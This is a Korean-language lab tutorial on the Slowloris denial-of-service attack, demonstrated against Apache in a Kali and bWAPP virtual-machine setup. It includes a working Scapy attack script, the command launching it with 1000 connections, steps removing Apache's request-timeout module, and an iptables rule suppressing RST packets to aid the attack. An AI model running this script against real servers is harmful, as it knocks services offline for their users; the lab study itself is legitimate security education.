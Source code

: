 ```yaml
---
sort: 5
---
```


# Slowloris Attack

<center><img src= "https://user-images.githubusercontent.com/76420201/106358354-14f37d80-634f-11eb-8a36-f352cb8d201c.png"></center>

**Slowloris Attack** : 웹 서버의 다수의 커넥션 연결 후 각 커넥션 별로 비정상 HTTP헤더 (완료되지 않는 헤더)를 전송함으로써 웹 서버 단의 커넥션 자원을 고갈 시키는 공격

- HTTP Header 정보를 비정상적으로 조작하여 웹서버가 온전한 Header정보가 올때 까지 기다리도록 한다.

- 서버가 연결 상태를 유지할 수 있는 가용자원은 한계가 있으므로 임계치를 넘어가면 다른 정상적인 접근을 거부하게 된다.

<br>

## Slowloris Attack 공격 원리

1. HTTP에선 헤더의 끝을 /r/n 이라는 개행문자를 구분한다.
2. 공격자(Attacker)는 이 마지막 문자를 보내지 않고 지속적으로 의미없는 변수를 추가한다.
3. 서버는 헤더 정보가 아직 전송 중이라고 인식하고 연결을 유지한다.
4. timer가 만료되기전에 불완전한 HTTP 요청을 반복적으로 수행하면서 client connection의 최대 수용가능한 수까지 도달하여 서버의 connection 자원을 고갈시킨다.

<br>

## Slowloris Attack 공격 순서

**Step 1. Victim 가상머신에서 네트워크 상태를 모니터링**

```
┌──(kali㉿kali)-[/var/www/html/bWAPP]
└─$ watch "netstat -pant"  
```

![slowloris](https://user-images.githubusercontent.com/76420201/105925447-8ac3c480-6083-11eb-9d32-a8c568352850.gif)


netstat [option]

-p	: 해당 프로토콜을 사용하고 있는 프로그램을 표시<br>
-a	: 모든 연결 및 수신 대기 포트 표시<br>
-n	: 주소나 포트 형식을 숫자로 표현<br>
-t	: TCP로 연결된 포트를 표시<br>

<br>

---

**Step 2. Attacker 에서 브라우저로 Victim의 아파치로 접속**

![slowloris0](https://user-images.githubusercontent.com/76420201/106067998-21a38600-6143-11eb-91ae-2e60f826c0fe.jpg)

|STATE| 의미|
|-|-|
|LISTEN 	|	서버의 데몬이 떠 있어서 클라이언트의 접속 요청을 기다리고 있는 상태 (LISTENING)|
|SYN_RECV | 서버가 클라이언트로부터 접속 요구SYN)를 받아 클라이언트에게 응답(SYN/ACK)를 보낸 상태|
|ESTABLISHED |	서버와 클라이언트 간에 세션 연결이 성립되어 통신이 이루어지고 있는 상태 |
|FIN_WAIT1|	클라이언트가 서버에게 연결을 끊고자 요청하는 상태|
|FIN_WAIT2|	서버가 클라이언트로부터 연결 종료 응답을 기다리는 상태|
|LAST_ACK |	호스트가 원격지 호스트의 연결 종료 요구 승인을 기다리는 상태 |
|TIME_WAIT|	연결이 종료되었지만 당분간 소켓을 열어 놓은 상태|

<br>

---

**Step 3. Attacker 가상머신에서 Slowloris.py를 생성**

```
┌──(kali㉿kali)-[~]
└─$ cd      
```

```
┌──(kali㉿kali)-[~]
└─$ code slowloris.py
```

<br>

- 파이썬 파일을 작성후 저장

```
# python3 slowloris.py TARGET_IP TARGET_PORT NO_OF_GETS
#                      공격대상웹서버주소 공격대상웹서버서비스포트 동시공격개수
# 파라미터의 개수를 확인
if len(sys.argv) != 4:
    print("Invalid Parameter")
    sys.exit(1)

# 입력 파라미터를 변수에 할당
target_ip = sys.argv[1]
target_port = int(sys.argv[2])
no_of_gets = int(sys.argv[3])

# IP 설정
ip = IP()
ip.dst = target_ip

# 동시공격회수에 맞춰서 3 way handshaking 및 완료되지 않은 HTTP 요청을 전송
for s in range(0, no_of_gets):
    tcp = TCP()
    tcp.dport = target_port                       # 연결 요청(SYN)
    tcp.sport = RandNum(1024, 65535)
    tcp.flags = 'S'

    syn = ip / tcp
    syn_ack = sr1(syn)                            # 연결 승락(SYN/ACK) 

    get = "GET / HTTP/1.1\r\nHost: " + target_ip  # 요청 헤더가 완료되지 않은 HTTP 요청
                                                  # GET / HTTP/1.1↳
                                                  # Host: 192.168.94.133   ⇐ 개행문자가 누락
    ack_get = ip                            \     # 연결 승락 확인(ACK) 및 요청(GET)을 전달
            / TCP(dport=target_port,        \     
                  sport=syn_ack[TCP].dport, \
                  flags="A",                \
                  seq=syn_ack[TCP].ack,     \
                  ack=syn_ack[TCP].seq+1)   \
            / get
    print(ack_get.summary())
    sr1(ack_get)
```

<br>

- 파이썬 파일 실행

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 slowloris.py victim 80 1000
```

![slowloris1](https://user-images.githubusercontent.com/76420201/106069982-f327aa00-6146-11eb-90d4-a52f246b57c3.jpg)

<br>

---

**Step 4. Victim 가상머신에서 패킷 정보, 웹 서버 상태 정보, 네트워크 상태 정보를 확인**

- Attacker에서 다수의 연결이 수립 (SYN -> SYN/ACK -> ACK)
![slowloris11](https://user-images.githubusercontent.com/76420201/106214499-3bf86500-6212-11eb-87e8-e7f6051c64d1.gif)<br>

- 요청 헤더가 끝나지 않은 상태로 전달된 것과 408 Request Timeout 응답이 반환된 것을 확인
![slowloris12](https://user-images.githubusercontent.com/76420201/106214500-3d299200-6212-11eb-8122-757c2c106afd.gif)<br>

- http://localhost/server-status 페이지에서 R(Reading Request) 상태의 연결이 다수 유지되고 있는 것을 확인
<img src = "https://user-images.githubusercontent.com/76420201/106214502-3dc22880-6212-11eb-8c9f-877b571072ba.gif" width = "50%"><br>

- 특정 호스트(Attacker)의 다수 포트와 연결이 유지되고 있는 것을 확인
<img src = "https://user-images.githubusercontent.com/76420201/106070606-1d2d9c00-6148-11eb-8e7f-c68710e17275.jpg" width = "70%"><br>

<br>

---

**Step 5. Victim 가상머신에서 Request Timeout 모듈을 제거 후 아파치를 재실행**

Slowloris 공격은 Timeout이 일어나기 전에 반복해서 보내는 것인데 현재 웹서버에서 처리하는 Request Timeout이 더 빨리 처리되기 때문에 테스트를 위해서 Request Timeout 모듈을 제거하고 확인해 봅니다.

```
┌──(kali㉿kali)-[~]
└─$ cd /etc/apache2/mods-enabled 
                                                        
┌──(kali㉿kali)-[/etc/apache2/mods-enabled]
└─$ sudo rm -rf reqtimeout.*
                                                        
┌──(kali㉿kali)-[/etc/apache2/mods-enabled]
└─$ sudo service apache2 restart
```

<br>

---

**Step 6. 다시 공격을 시도하면 해당 웹 페이지로 접속되지 않는 것을 확인**

http://localhost/server-status 접속되지 않음을 확인 -> 공격이 정상적으로 이루어 짐

![slowloris15](https://user-images.githubusercontent.com/76420201/106218505-bf1db900-621a-11eb-939f-733a9fc31f82.gif)


<br>

---

```tip
공격이 원활히 진행되지 않는 경우 Attacker 가상머신의 iptables 설정을 확인
효율적으로 공격이 진행될 수 있도록 RST 패킷이 외부로 전달되지 않도록 설정 

`└─$ sudo iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP`
```
```
┌──(kali㉿kali)-[~]
└─$ sudo iptables -L

[sudo] password for kali: 
Chain INPUT (policy ACCEPT)
target     prot opt source              destination         

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
DROP       tcp  --  anywhere             anywhere             tcp flags:RST/RST
                                          
```
